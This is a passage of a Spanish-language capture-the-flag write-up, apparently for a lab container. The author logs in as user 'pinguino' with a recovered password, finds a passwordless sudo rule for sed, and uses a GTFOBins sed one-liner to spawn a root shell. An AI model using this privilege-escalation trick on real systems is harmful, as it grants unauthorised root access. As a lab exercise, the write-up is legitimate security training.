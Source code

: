 Bien. Tenemos usuario y password del usuario pinguino.
Volvamos a la maquina y cambiemos al usuario pinguino:

```
pylon@b24b67d706ea:~$ su pinguino
su pinguino
Password: pinguinomaloteh

pinguino@b24b67d706ea:/home/pylon$ whoami
whoami
pinguino

```

Probamos de nuevo lo basico: sudo -l

```
pinguino@b24b67d706ea:/home/pylon$ sudo -l
sudo -l
Matching Defaults entries for pinguino on b24b67d706ea:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    use_pty

User pinguino may run the following commands on b24b67d706ea:
    (ALL) NOPASSWD: /usr/bin/sed

```
Perfecto, podemos ejecutar sin password y con todos los permisos el comando /usr/bin/sed.

Consultamos GTFOBins y nos dice lo siguiente:

```
sudo sed -n '1e exec sh 1>&0' /etc/hosts

```

Vamos a probar….

```
pinguino@b24b67d706ea:/home/pylon$ sudo /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
<$ sudo /usr/bin/sed -n '1e exec sh 1>&0' /etc/hosts
# whoami
whoami
root

```
PWNED!!
